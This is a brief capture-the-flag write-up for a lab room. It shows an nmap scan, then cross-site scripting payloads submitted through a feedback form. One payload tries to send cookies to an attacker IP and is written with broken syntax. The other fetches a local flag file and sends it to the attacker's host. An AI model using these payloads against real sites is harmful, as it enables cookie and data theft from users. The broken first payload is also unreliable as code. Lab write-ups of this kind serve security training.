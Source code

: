From the description of the room we need to do some client side exploits to read the flag 
Starting with a nmap scan
```
22 OpenSSH 8.2p1
8080 Wekzeug 3.0.1 Python 3.8.10
```
Going to the site its all static but the feedback page If we use xss it will go to are link 
```
<script> ver i=new Image(); i=src="http://10.13.8.255/?cookie="</script>
```
now we have XSS we can use this to try and get the flag and we can do so with this payload
```
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then (r => fetch ('http://10.13.8.255:8080/?c=' + r)).catch(e => fetch('http://10.13.8.255:8080/?c=' + e))"/>
```